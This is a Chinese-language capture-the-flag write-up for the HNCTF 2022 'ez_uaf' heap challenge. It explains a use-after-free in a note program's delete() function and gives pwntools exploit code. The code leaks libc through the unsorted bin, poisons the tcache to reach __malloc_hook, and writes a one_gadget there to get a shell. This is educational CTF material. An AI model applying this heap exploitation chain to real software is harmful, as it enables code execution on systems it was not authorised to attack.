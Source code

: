 ```yaml
---
title: '[HNCTF 2022 WEEK4] ez_uaf'
date: 2024-04-030 13:00:00 +0800
categories: [uaf,unsortedbin,leak_libc]
tags: [ctf,pwn]
---
```


```shell
[*] '/home/bamuwe/ez_uaf/ez_uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./ez_uaf

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> $ ./ez_uaf

```c
__int64 delete()
{
  __int64 result; // rax
  signed int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && *(*(&heaplist + v1) + 28LL) )
  {
    free(*(*(&heaplist + v1) + 16LL));
    free(*(&heaplist + v1));
    result = *(&heaplist + v1);
    *(result + 28) = 0;
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
  return result;
}
```

> delete()漏洞函数,没有清除指针

```python
def add(size,name,content):
    io.sendlineafter(b'Choice: \n',b'1')
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendafter(b'Name: \n',name)
    io.sendafter(b'Content:\n',content)

def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(int(idx)))

def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    io.send(content)
```

> 交互函数

程序逻辑:

1. `add()`一个`chunk`
2. `free()`这个区块后仍然可以对这个区块进行`edit()`,`show()`

利用思路:

1. 利用unsortbin指向自身的特点,泄露出`main_arena`的地址,进而泄露出`__malloc_hook`的地址

   ```python
   add(0x410,b'a',b'a')    #0
   add(0x20,b'b',b'1111')  #1						#后续利用的chunk
   add(0x10,b'c',b'c')     #2						#后续利用的chunk
   free(0)                                         #unsortbin指向自身
   show(0)
   #leak_libc
   io.recvuntil(b'\n')
   malloc_hook_addr = u64(io.recv(6).ljust(8,b'\x00'))-96-16
   success(f'malloc_hook_addr=> {hex(malloc_hook_addr)}')
   lib_offset = malloc_hook_addr - lib.sym['__malloc_hook']
   one_gadgets_addr = 0x10a2fc+lib_offset			#后续利用
   ```

   ![image-20240430195924018](./../../AppData/Roaming/Typora/typora-user-images/image-20240430195924018.png)

2. 释放`chunk1`并且修改`chunk1`的`fd`的地址为`__malloc_hook`的地址,制造`fake_chunk`

   ```python
   free(1)
   edit(1,p64(malloc_hook_addr))       # 修改fd
   ```

   ![image-20240430200315872](./../../AppData/Roaming/Typora/typora-user-images/image-20240430200315872.png)

3. 利用`fake_chunk`修改`__malloc_hook` 的内容为`one_gadget`,重新`add()`一个`chunk`得到`shell`

   ```python
   add(0x10,b'2',b'2')     #3          #tcachebin规则          
   add(0x20,b'3',b'3')     #4        #fake_chunk,地址为malloc_hook_addr
   edit(4,p64(one_gadgets_addr))
   
   io.sendlineafter(b'Choice: \n',b'1')
   io.sendlineafter(b'Size:\n',b'0x20')
   ```

   提到`tcachebin`规则,由上图可知,当前`tcachebin`在`malloc_hook`之前还有两个堆块,所以我们要填充再利用

关于`unsortedbin`:

> 1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
>
> 2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
>
> 3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

